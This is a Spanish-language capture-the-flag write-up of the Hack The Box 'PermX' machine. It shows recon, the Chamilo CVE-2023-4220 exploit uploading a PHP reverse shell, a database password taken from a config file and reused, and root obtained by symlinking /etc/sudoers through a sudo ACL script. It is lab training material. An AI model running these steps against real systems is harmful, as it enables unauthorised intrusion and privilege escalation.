 ```yaml
---
layout: single
title: PermX - Hack The Box
excerpt: "Descripcion"
date: 2024-07-09
classes: wide
header:
  teaser: assets/images/htb-writeup-PermX/PermX_Teaser.png
  teaser_home_page: true
  icon: assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Box
  - cve
---
```

![](../assets/images/htb-writeup-PermX/PermX.png)

**RECON**

**PORTS SCAN**

```ruby
>$ nmap -A -sV -sC permx.htb -oA nmap/PermX
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-08 10:52 EDT
Nmap scan report for 10.129.84.129
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
En el puerto 80 hay un servidor web que está dirigido a http://permx.htb. Al añadirlo a los vhosts y acceder a la URL, encontramos un sitio web estático que no contiene información relevante o interesante.


Después, al realizar una enumeración de subdominios utilizando wfuzz, se muestra un subdominio llamado lms.permx.htb.

```ruby
❯ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hc 302,404 -H "Host: FUZZ.permx.htb" permx.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://permx.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                      
=====================================================================

000000001:   200        586 L    2466 W     36182 Ch    "www"                                        
000000477:   200        352 L    940 W      19347 Ch    "lms" 

```
Hemos añadido los nuevos subdominios a ``/etc/hosts`` y ahora procederemos a visitar la página.

![](../assets/images/htb-writeup-PermX/lms-login.png)

Mientras investigaba la versión de Chamilo y las vulnerabilidades recientes, encontré un exploit en GitHub con un POC (prueba de concepto) de ejecución de código remoto no autenticado.

[](https://github.com/Ziad-Sakr/Chamilo-LMS-CVE-2023-4220-Exploit/tree/main)

Te recomiendo usar la revershell de pentestmonkey.

[](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```ruby
❯ bash CVE-2023-4220.sh -f rev.php -h http://lms.permx.htb/  -p 443

The file has successfully been uploaded.

#    Use This leter For Interactive TTY ;)  
#    python3 -c 'import pty;pty.spawn("/bin/bash")'
#    export TERM=xterm
#    CTRL + Z
#    stty raw -echo; fg

# Starting Reverse Shell On Port 443 . . . . . . .                                                            
                                                                                                              
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.86.51] 47548
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:34:08 up 18:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
www-data@permx:/$
www-data@permx:/$
www-data@permx:/$ ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
```
Después de revisar un poco las configuraciones, pensé que si había un panel de login, probablemente habría alguna configuración vinculada a una base de datos. Fue entonces cuando encontré credenciales de la base de datos.

```ruby
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php

<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
```
Resulta que el usuario mtz reutilizó la contraseña... ahora tenemos acceso a su cuenta.

Una vez dentro, descubrimos que el usuario mtz tiene permisos sudo para ejecutar un script de bash que modifica los permisos de archivos de cualquier usuario....
```ruby
mtz@permx:~$ sudo -l 
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Utilicé este script para cambiar los permisos del archivo sudoers y lo modifiqué para otorgarle al usuario mtz privilegios sudo en el host. Para lograrlo, creé un enlace simbólico al archivo /etc/sudoers en el directorio /home/mtz y utilicé el script para darle permisos de lectura y escritura al usuario.

```ruby
mtz@permx:~$ ln -s /etc/sudoers ./tada
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/tada
```

Modifica el archivo de sudoers.

```ruby
. . .

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```
Ahora ya podemos hacer login a root!!

```ruby
mtz@permx:~$ sudo su
root@permx:/home/mtz# cat /root/root.txt
xxxxxxxxxxxxxxxxxxxxxxx
```
